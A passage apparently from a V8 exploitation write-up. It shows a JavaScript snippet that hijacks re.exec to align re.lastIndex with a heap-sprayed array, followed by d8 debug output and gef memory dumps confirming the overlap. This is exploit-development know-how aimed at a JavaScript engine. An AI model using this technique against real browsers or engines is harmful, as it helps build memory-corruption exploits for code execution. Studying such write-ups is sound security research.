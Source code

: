 ```js
var n = 1073741824;
re.exec = function () {
    new Array(0x0d);  // padding to make re.lastIndex overlaps and perfectly align with our spray array elements
    re.lastIndex = n;
    delete re.exec;  // to pass `HasInitialRegExpMap` check and falls back to RegExp.prototype.exec to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
```

After trial-and-error, below is my result in which `re.lastIndex` overlaps
with `spray[1]`.

```console
$ ./d8 --allow-natives-syntax --shell --trace-gc ./idk.js
0x281a00048489 <JSRegExp <String[4]: #leet>>
[22072:0x56501579c000]        3 ms: Mark-Compact (reduce) 0.6 (2.0) -> 0.6 (2.0) MB, 1.00 / 0.00 ms  (average mu = 0.518, current mu = 0.518) external memory pressure; GC in old space requested
0x281a0019a7dd <JSRegExp <String[4]: #leet>>
0x281a00282389 <HeapNumber 1073741825.0>
[22072:0x56501579c000]        3 ms: Scavenge 0.6 (2.0) -> 0.6 (3.0) MB, 0.10 / 0.00 ms  (average mu = 0.518, current mu = 0.518) external memory pressure;
[22072:0x56501579c000]        3 ms: Scavenge 0.6 (3.0) -> 0.6 (3.0) MB, 0.05 / 0.00 ms  (average mu = 0.518, current mu = 0.518) external memory pressure;
[22072:0x56501579c000]        3 ms: Scavenge 0.6 (3.0) -> 0.6 (3.0) MB, 0.05 / 0.00 ms  (average mu = 0.518, current mu = 0.518) external memory pressure;
[22072:0x56501579c000]        3 ms: Scavenge 0.6 (3.0) -> 0.6 (3.0) MB, 0.05 / 0.00 ms  (average mu = 0.518, current mu = 0.518) external memory pressure;
0x281a0019a7dd <JSRegExp <String[4]: #leet>>
0x281a00282421 <JSArray[20]>
V8 version 12.2.0 (candidate)
d8>
```

```console
gef> tele 0x281a00282420
0x281a00282420|+0x0000|+000: 0x000006cd0018ece1
0x281a00282428|+0x0008|+001: 0x0000002800282379 ('y#('?)
gef> tele 0x281a00282378
0x281a00282378|+0x0000|+000: 0x0000002800000851
0x281a00282380|+0x0008|+001: 0x3fb999999999999a
0x281a00282388|+0x0010|+002: 0x3ff199999999999a
0x281a00282390|+0x0018|+003: 0x4000cccccccccccd
0x281a00282398|+0x0020|+004: 0x4008cccccccccccd
0x281a002823a0|+0x0028|+005: 0x4010666666666666
0x281a002823a8|+0x0030|+006: 0x4014666666666666
0x281a002823b0|+0x0038|+007: 0x4018666666666666
0x281a002823b8|+0x0040|+008: 0x401c666666666666
0x281a002823c0|+0x0048|+009: 0x4020333333333333
gef> p/f 0x3ff199999999999a
$1 = 1.1000000000000001
```


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>